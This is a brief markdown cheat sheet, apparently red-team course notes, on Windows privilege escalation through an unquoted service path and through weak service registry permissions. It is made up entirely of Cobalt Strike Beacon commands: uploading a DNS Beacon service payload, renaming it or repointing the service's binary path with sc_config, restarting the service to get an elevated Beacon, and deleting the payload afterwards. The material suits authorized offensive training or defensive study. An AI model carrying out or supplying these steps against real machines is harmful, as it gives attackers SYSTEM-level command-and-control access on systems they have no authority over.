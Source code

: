 ### Unquoted Service Path
- Verify the binary path of the service.
    1. `sc_qc BadWindowsService`

-  Verify the permissions of the target directory.    
    1. `cacls "C:\Program Files\Bad Windows Service"`

-  Change Beacon's current working directory.    
    1. `cd C:\Program Files\Bad Windows Service`

-  Upload a DNS Beacon service payload.
    1. `upload C:\Payloads\dns_x64.svc.exe`

-  Rename the payload to activate the hijack.
    1. `mv dns_x64.svc.exe Service.exe`

-  Restart the service.
    
    1. `sc_stop BadWindowsService`
    2. `sc_start BadWindowsService`
    
    The new Beacon should appear immediately.
    
-  Interact with the new Beacon.
    1. `Run a checkin command.`

-  Delete the service payload.
    1.` rm Service.exe`

### Service Registry Permissions
- Verify the permissions of the service's regsitry key.
    
    1. powerpick Get-Acl -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\BadWindowsService' | fl
-  Stop the service.
    
    1. sc_stop BadWindowsService
-  Change Beacon's current working directory.
    
    1. cd C:\Temp
-  Upload a DNS Beacon service payload.
    
    1. upload C:\Payloads\dns_x64.svc.exe
-  Get the current binary path.
    
    1. sc_qc BadWindowsService
-  Reconfigure the service to point to the payload.
    
    1. sc_config BadWindowsService C:\Temp\dns_x64.svc.exe 0 2
-  Start the service.
    
    1. sc_start BadWindowsService
    
    The elevated Beacon should appear immediately.
    
-  Restore the binary path.
    
    1. sc_config BadWindowsService "C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe" 0 2
-  Delete the service payload.
    
    1. rm dns_x64.svc.exe